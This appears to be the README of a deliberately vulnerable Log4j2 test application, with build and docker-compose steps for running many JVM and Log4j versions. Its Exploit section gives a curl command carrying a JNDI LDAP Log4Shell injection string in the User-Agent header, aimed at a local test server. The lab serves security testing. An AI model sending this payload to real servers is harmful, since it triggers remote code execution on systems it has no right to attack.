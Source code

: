 # Example App for log4j2 testing purposes

### Setup

You will need to install:

```
docker
docker-compose
```

If you want to run the resulting JAR files directly on your host, you will need to install JDK8 or JDK11 depending on
what testing is to be performed. 

> Note: Currently the project targets only those JDK versions

### Build


> NOTE on versions:
> 
> There is a huge number of combinations of JVM version and Log4j versions.  By default, the build scripts and the
> docker-compose setup uses a subset of these combinations.  The subset is JVM 8/11 and Log4j vulnerable versions, but
> the last Z for each minor (i.e., 2.15.0, 2.14.1, 2.13.1, etc).
>
> If you want to build and run ALL the versions use the `build-all.sh` and `docker-compose-all.yml` files in place of the
> build.sh and docker-compose.yml files mentioned in the details below.

You first need to build all the JAR files (if desired, test single versions see `Build JAR for single version`). 

```
sh -x ./build/build.sh
```

> NOTE: Customize for the versions you want to create


If you want to run a build manually; this is the command

```
LOG4J_VERSION=2.6.1 mvn clean assembly:assembly -DdescriptorId=jar-with-dependencies
```

You must set the LOG4J_VERSION env var or the pom is invalid


### Run

Manually running one version on a host directly: 

> NOTE: This assumes you have the proper JRE version installed!

```
PORT=8080 java -jar <jar> # You must set the PORT or it will error!
```

Running inside of a docker container (see docker-compose.yml for additional info)

```
docker-compose [-f docker-compose.yml] up [image]
```


### Exploit

Send a properly formated jdni:ldap message as your user agent, example:

```
curl 127.0.0.1:8080/ -H 'User-Agent: ${jndi:ldap://127.0.0.1:1389/Exploit}'
```


### Build JAR for single version

Where the first argument is the Java version and the second is the LOG4J_VERSION.  Once built, and individual version
can be started with docker-compose via `docker-compose up log4j_1.8_2.15.0` (see docker-compose.yml for configured
versions).

```
sh -x ./build/build_one.sh 1.8 2.15.0
```
